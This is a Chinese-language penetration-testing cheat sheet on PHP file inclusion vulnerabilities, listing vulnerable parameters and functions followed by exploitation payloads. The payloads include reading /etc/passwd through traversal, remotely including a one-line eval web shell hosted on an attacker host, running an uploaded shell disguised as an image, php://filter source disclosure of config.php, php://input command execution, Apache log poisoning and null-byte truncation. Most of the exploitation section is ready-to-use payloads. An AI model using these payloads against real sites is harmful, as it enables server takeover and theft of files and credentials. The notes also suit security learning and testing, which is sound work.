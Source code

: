 ```yaml
---
# 这是页面的图标
icon: file
# 这是文章的标题
title: 文件包含
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-20
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 文件包含
comment: false
---
```






## 0x01. 典型特征
```
?page=a.php
?home=b.html
?file=content
?name=a.php
```
## 0x02. php常见导致文件包含的函数：
```php
include()
include_once()
require()
require_once()
fopen()
readfile()
```
## 0x03. 利用
1. 读取文件
```
http://www.xxser.com/index.php?page=/etc/passwd
```
2. 远程包含shell  
allow_url_fopen=on 情况下
```
http://www.example.com/index.php?page=http://www.attacker.com/echo.txt
其中echo.txt内容为:<?php eval($_POST[xxser]);?>
```
3. 本地包含配合文件上传漏洞包含shell
```
上传一句话木马文件后，通过文件包含利用，非php扩展文件被包含后也会被当作php解析
http://www.example.com/index.php?page=./uploadfile/xxx.jpg
```
4. PHP协议
  - php://filter  
    一种元封装器，用于数据流打开时的筛选过滤应用
  ```url
  http://www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
  ```
  - php://input  
    php://input是个可以访问请求的原始数据的只读流,可以接收post请求，将请求作为PHP代码的输入传递给目标变量
  ```
  http://www.example.com/index.php?page=php://input
  实例：
  POST /?file=php://input
  <?php system("cat /flag");?>
  ```
5. 包含日志文件
```
先访问：http://www.example.com/<?php phpinfo();?>生成日志
再访问：http://www.xxser.com/index.php?page=./../Apache-20/logs/access.log
关键在于确定apache路径
```
6. 截断包含  
magic_quotes_gpc=off 情况下
```url
http://www.example.com/index.php?page=1.jpg%00
```

